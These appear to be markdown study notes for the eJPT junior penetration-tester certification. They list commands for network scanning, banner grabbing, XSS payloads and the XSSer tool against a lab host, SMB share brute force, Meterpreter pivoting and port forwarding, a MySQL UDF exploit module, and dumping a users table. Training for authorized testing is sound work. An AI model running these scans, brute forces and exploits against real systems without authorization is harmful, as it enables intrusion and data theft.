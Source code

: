 # eJPT : eLearnSecurity Junior Penetration Tester

## Networking

Check routing table information

```
$ route 
$ ip route
```

Add a network to current route

```
 ip route add <network_ip>/<cidr> via <gateway_ip> dev <network_card_name>
 
```
### Example
```
$ ip route add 192.168.10.0/24 via 10.175.3.1 dev eth1
```

```
$ route add -net 192.168.10.0 netmask 255.255.255.0 gw 10.175.3.1
```
## Footprinting & Scanning

Find live hosts with fping or nmap

```
$ fping -a -g 172.16.100.40/24 2>/dev/null | tee alive_hosts.txt
```

```
$ nmap -sn 172.16.100.40/24 -oN alive_hosts.txt

```


### nmap scan types
```
-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Not Port Scan
-sV: Service Version information
-O: Operating System information
```

```
nmap --script=mysql-*
nmap -p27017 --script=mongodb-brute target-2
```

## Subdomain Enumeration

- [Sublist3r](https://github.com/aboul3la/Sublist3r)
- [DNSdumpster](https://dnsdumpster.com/)


## Web Server Fingerprinting

Use netcat for HTTP banner grabbing:
```
$ nc <target addr> 80
HEAD / HTTP/1.0
```

Use OpenSSL for HTTPS banner grabbing:
```
$ openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

httprint is a web fingerprinting tool that uses **signature-based** technique
to identify web servers. This is more accurate since sysadmins can customize
web server banners.

```
$ httprint -P0 -h <target hosts> -s <signature file>
```

## Google Hacking

site:
intitle:
inurl:
filetype:
AND, OR, &, |

```
Example : inurl:admin intitle:login
```
[Google Hacking Database ](https://www.exploit-db.com/google-hacking-database)

## XXS (Cross Site  Scripting)

Look to exploit user input coming from:
- Request headers
- Cookies
- Form inputs
- POST parameters
- GET parameters

Check for XSS
```
<script>alert(1)</script>
<i>some text</i>
```

Steal cookies:
```
<script>alert(document.cookie)</script>
```

### Xsser Tool 

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

target_host=XSS > Is Variable

```

 ## XSSer's "--auto" option

 ```
 xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

 ```
## Using custom XSS payload

 ```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

 ```

 In Burp Suite, replace the POST parameters with the final attack 

```
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

```
## Enum4linux 
- enum4linux -U # enum Users
- enum4linux -d -S # detail and Share list
- enum4linux -n # nbstat if server avaible you got <20>
- enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt # share brute force


# Meterpreter Rooting
## pivot to the otherwise unreachanble network
```
run autoroute -s 192.69.228.0 -n 255.255.255.0
``````
> background
> 
> route print

```
route add 192.69.228.0 255.255.255.0 1
```
## Scan subnet with msf
```
use auxiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit
```
## Forwarding the remote port to local port
```
portfwd add -l 1234 -p 21 -r 192.69.228.3
portfwd list
```
```
background
nmap -sS -sV -p 1234 localhost
```
# Meterpreter Post-Exploitation
## Enum_users_Information

```
use post/linux/gather/enum_users_history
```
## Setting Proxy Socks

```
use auxiliary/server/socks_proxy
```
# Meterpreter mysql
## remote server 
```
exploit/multi/mysql/mysql_udf_payload
```
# Find flag
```
find / -name flag.txt 2>/dev/null
find / -name user.txt 2>/dev/null
find / -name .flag 2>/dev/null
find / -name flag 2>/dev/null
find / -name root.txt 2>/dev/null
```

# Mysql 

```
show databases;
use gallery_db;
show tables;
select * from users;
```

# Git Commit with Login

```
git commit -m "Bug Fix" --author "Jeremy McCarthy <jeremy@dummycorp.com>"
```
